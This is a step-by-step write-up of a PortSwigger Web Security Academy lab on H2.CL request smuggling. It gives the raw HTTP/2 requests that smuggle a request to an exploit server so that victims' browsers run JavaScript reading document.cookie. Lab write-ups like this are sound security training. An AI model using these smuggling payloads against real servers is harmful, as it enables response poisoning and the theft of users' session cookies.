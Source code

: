 # H2.CL request smuggling

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

step 1
intercept homepage to repeater change get to post request

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

userid=test
```

![screenshot](./images/images_lab12/lab12_post_request.png)

step 2
test payload

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

0

GET /resources HTTP/1.1
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab12/lab12_test_resource.png)

step 3
add payload into resource

![screenshot](./images/images_lab12/lab12_test_expolit_page.png)

step 4
test payload from resource

```
GET /resources HTTP/2
Host: exploit-0ae5004d04bfd27b80b403cd018000b8.exploit-server.net
Content-Length: 2

```

![screenshot](./images/images_lab12/lab12_test_alert_payload.png)

step 5
final payload

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

0

GET /resources HTTP/1.1
Host: exploit-0ae5004d04bfd27b80b403cd018000b8.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab12/lab12_test_final_payload.png)

![screenshot](./images/images_lab12/lab12_solved_lab.png)
